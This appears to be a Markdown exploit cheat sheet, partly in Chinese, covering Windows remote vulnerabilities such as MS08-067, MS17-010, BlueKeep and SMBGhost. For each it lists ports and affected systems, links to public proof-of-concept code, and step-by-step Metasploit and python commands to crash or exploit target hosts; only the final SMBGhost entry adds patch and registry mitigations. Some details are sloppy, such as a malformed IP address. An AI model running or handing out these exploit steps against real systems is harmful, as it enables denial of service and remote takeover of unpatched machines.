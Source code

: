## exploit list
### cve
1. http://cve.mitre.org/

### windows

#### CVE-2011-046
1. help
2. scan
3. poc

#### ms08_067
1. help
   - port:445
   - about: 获取cmd权限
   - os: 2000,xp,2003
2. poc
   - msfconsole

#### ms12_020
1. help:
   - port:3389
   - 开启3389 未使用网络身份验证，则可能导致蓝屏
   - os：windows server 2008
2. poc:
   - msfconsole

2. msfconsole poc
####  ms17_010(CVE-2017-0143)
1. help
   - port:445
   - os:xp,2003,win7,win10
2. poc:
   - msfconsole

#### CVE-2019-0708
1. help
   - 蓝屏,3389服务存在严重安全漏洞
   - xp,2003,win7,win10
   - help:https://blog.csdn.net/qq_42184699/article/details/90754333

2. scan
   - msfconsole:use scanner/rdp/cve_2019_0708_bluekeep

3. python poc
   - https://github.com/n1xbyte/CVE-2019-0708
   - apt-get install python3-pip
   - pip3 install impacket
   - python3 crashpoc.py 192.168.1.3 64

4. msfconsole poc
   - search 19_0708
   - use windows/rdp/cve_2019_0708_bluekeep_rce
   - show options
   - set RHOSTS 1291.168.2.3
   - show targets
   - set TARGET 1
   - exploit

#### CVE-2020-0796
1. help
   - 445 蓝屏
   - 介绍:https://laolisafe.com/1773.html
   - https://xz.aliyun.com/t/7440
   - os:win10

2. scan
   - scan:https://github.com/T13nn3s/CVE-2020-0796
   - check:https://github.com/ollypwn/SMBGhost
   - check:https://github.com/joaozietolie/CVE-2020-0796-Checker

3. poc
   - 蓝屏poc:https://github.com/eerykitty/CVE-2020-0796-PoC
   ```
     pip3 install ntlm_auth
     python3 CVE-2020-0796.py 192.168.1.1
   ```
   - exe poc:https://mi-di.cn/CVE-2020-0796/CVE-2020-0796-Scanner.zip
   - 本地提权:https://github.com/danigargu/CVE-2020-0796/

4. fix
   - 设置-更新和安全-Windows更新-检查更新 或直接下载对应补丁进行安装（KB4551762）
     https://www.catalog.update.microsoft.com/Search.aspx?q=KB4551762
   - regedit
      HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters
      建立一个名为DisableCompression的DWORD，值为1，禁止SMB的压缩功能。
   - 或powershell
     Set-ItemProperty -Path “HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters”
   - DisableCompression -Type DWORD -Value 1 -Force
   - 封445端口
